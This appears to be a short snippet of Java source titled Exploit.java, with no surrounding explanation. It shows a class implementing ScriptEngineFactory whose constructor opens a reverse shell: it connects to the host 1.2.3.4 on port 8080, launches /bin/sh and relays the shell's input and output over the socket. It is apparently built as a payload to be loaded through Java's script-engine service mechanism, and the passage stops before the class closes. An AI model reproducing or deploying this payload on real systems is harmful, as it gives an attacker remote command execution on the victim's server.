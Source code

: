 Exploit.java

```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.BufferedReader;
import java.io.File;
import java.io.InputStreamReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.net.Socket;
import java.net.SocketTimeoutException;
import java.util.List;
import java.net.URL;
import java.net.URLConnection;


public class Exploit implements ScriptEngineFactory {
  public Exploit() throws Exception {
    Socket client = new Socket();
    client.connect(new InetSocketAddress("1.2.3.4", 8080));

    OutputStream socin  = client.getOutputStream();
    InputStream socout = client.getInputStream();

    Process process = new ProcessBuilder("/bin/sh").redirectInput(ProcessBuilder.Redirect.PIPE).redirectOutput(ProcessBuilder.Redirect.PIPE).redirectError(ProcessBuilder.Redirect.PIPE).start();

    OutputStream stdin   = process.getOutputStream();
    InputStream stdout  = process.getInputStream();
    InputStream stderr  = process.getErrorStream();

    byte[] buffer = new byte[1024];
    int bytes = 0;

    while (process.isAlive()) {
        do {
            bytes = socout.read(buffer, 0, buffer.length);
            if (bytes > 0) {
                stdin.write(buffer, 0, bytes);
                stdin.flush();
            }
        } while (socout.available() > 0);

        while (stderr.available() > 0) {
            bytes = stderr.read(buffer, 0, buffer.length);
            if (bytes > 0) {
                socin.write(buffer, 0, bytes);
                socin.flush();
            }
        }
        while (stdout.available() > 0) {
            bytes = stdout.read(buffer, 0, buffer.length);
            if (bytes > 0) {
                socin.write(buffer, 0, bytes);
                socin.flush();
            }
        }
    }

  }

```